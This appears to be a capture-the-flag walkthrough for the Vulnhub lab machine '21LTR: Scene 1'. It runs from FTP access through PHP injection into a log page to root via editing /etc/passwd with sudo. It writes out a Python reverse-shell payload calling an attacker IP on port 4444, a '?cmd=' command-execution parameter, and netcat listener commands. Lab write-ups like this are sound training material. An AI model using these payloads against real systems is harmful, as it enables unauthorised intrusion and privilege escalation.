# 21LTR: Scene 1 - Vulnhub Machine
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **21LTR: Scene 1** CTF challenge on [Vulnhub](https://www.vulnhub.com/entry/21ltr-scene-1,3/). 
---

we see open ports 21, 22, 80 and 10001



simple website on port 80

we can find credentials in webpage source code



brute forcing directories, we found /logs/ but 403 Frobidden



we can login to FTP with credentials we found



`backup_log.php` content



we see that machine is trying to contact address 192.168.2.240

we can try to intercept the communication with wireshark, but first we change our attacker machine IP to 192.168.2.240



victim is trying to communicate on port 10000 , we can start a listener on port 10000 to capture the data using `nc -lvnp 10000 > output`





we got .gzip file, we can unpack the backup file but there is nothing interesting 

now we need to test port 10001, using command `while true; do nc -v
192.168.2.120 10001 && break; sleep 1; clear; done`
 
it works, we got a connection, we can type some text that will be reflected in `/logs/backup_log.php`, HTML tags are not cleared

we can also test for php execution



php is executiong so we can use it to test some simple command execution via GET parameter

testing which python is running using `?cmd=which python`

using this reverse shell payload `?cmd=python -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.2.240",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'`



we got a shell

using linpeas to find escalation vector



linpeas found ssh private key for user hbeale





we can login via SSH



testing `sudo -l` command and taking a look inside `/etc/shadow`



we can run sudo without password on `/usr/bin/cat`, we can modify `/etc/passwd` to create new root user 



new `/etc/passwd` file



teraz możemy zmienić użytkownika na nowo stworzonego haxor'a

now we can login as haxor and we got root



# PWNED
